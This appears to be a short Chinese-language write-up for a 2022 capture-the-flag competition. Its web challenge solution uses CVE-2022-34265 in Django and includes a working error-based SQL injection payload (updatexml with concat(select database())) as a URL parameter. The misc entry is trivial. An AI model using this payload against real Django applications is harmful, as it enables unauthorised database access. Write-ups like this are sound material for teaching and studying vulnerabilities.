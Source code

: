 # 2022长城杯

# web

## djangogogo

CVE2022-34265

?name={{}}

发现字段名sale_datetime,结合CVE进行报错注入

?name=year+from sale_datetime))+and+updatexml(1,concat(1,(select database()),1),1)—

![Untitled](attachments/Untitled%208.png)

# misc

## 签名簿

签字拿flag